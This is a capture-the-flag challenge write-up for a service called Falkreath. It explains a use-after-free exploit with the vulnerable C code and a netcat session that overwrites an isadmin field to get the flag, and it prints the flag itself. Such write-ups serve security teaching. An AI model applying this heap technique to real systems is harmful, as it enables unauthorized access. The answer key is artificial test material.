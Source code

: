 # Falkreath

## Question Text

What is this useless service?

*Creator - PotatoDrug*

## Setup Guide
Run `./build.sh`

## Distribution
- Falkreath.c
    - SHA1: `917903dfd0e9a01ad658bacb5ba1e5b6b6e700d3`
    - Source code

## Solution
The service is vulnerable to Use After Free exploit.

As you can see from the code below, after allocating memory to userptr with `login` we can free the memory using `logout` which allows us to use `prompt` to allocate data where `32 < len(data) < 39` to the freed memory so that `isadmin` is not zero. This works because `userptr` is still pointing to the address even though the memory is freed and `strdup` uses malloc.
```c
if(strncmp(line, "login ", 6) == 0) {
  userptr = calloc(1, sizeof(struct user)); // allocates 36 bytes (32+4) from the heap
  if(strlen(line + 6) < 31) {
      strcpy(userptr->name, line + 6);
  }
} else if(strcmp(line, "logout\n") == 0) {
  free(userptr);
} else if(strncmp(line, "prompt ", 7) == 0) {
  prompt = strdup(line + 7);
  prompt[strcspn(prompt, "\r\n")] = 0;
} else if(strcmp(line, "getflag\n") == 0) {
  if (userptr != NULL) {
    if(userptr->isadmin) {
      printf("Flag: %s\n", getenv("FLAG"));
      return 0;
    } else {
      printf("Not admin!\n");
    }
  } else {
    printf("Please login first!\n");
  }
}
```

```
➜ nc 127.0.0.1 18000
___________        .__    __                              __   .__                                        
\_   _____/_____   |  |  |  | _________   ____  _____   _/  |_ |  |__                                     
 |    __)  \__  \  |  |  |  |/ /\_  __ \_/ __ \ \__  \  \   __\|  |  \                                    
 |     \    / __ \_|  |__|    <  |  | \/\  ___/  / __ \_ |  |  |   Y  \                                   
 \___  /   (____  /|____/|__|_ \ |__|    \___  >(____  / |__|  |___|  /                                   
     \/         \/            \/             \/      \/             \/                                    
Not logged in
>login bob
User: bob

>logout
User:
>prompt AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
User: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgetflag
Flag: GCTF{WH47_4_he4pPie_EXPL0I7}
```

[Sample Solution](solution/solve.py)

### Flag
`GCTF{WH47_4_he4pPie_EXPL0I7}`